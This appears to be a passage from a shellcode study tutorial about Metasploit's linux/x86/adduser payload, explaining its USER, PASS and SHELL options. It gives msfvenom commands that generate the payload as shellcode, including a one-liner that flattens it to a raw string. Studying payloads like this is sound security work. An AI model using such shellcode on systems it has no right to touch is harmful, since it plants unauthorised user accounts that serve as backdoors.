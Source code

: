 ![Screenshot](../images/adduser/2.png)


There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```bash
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```
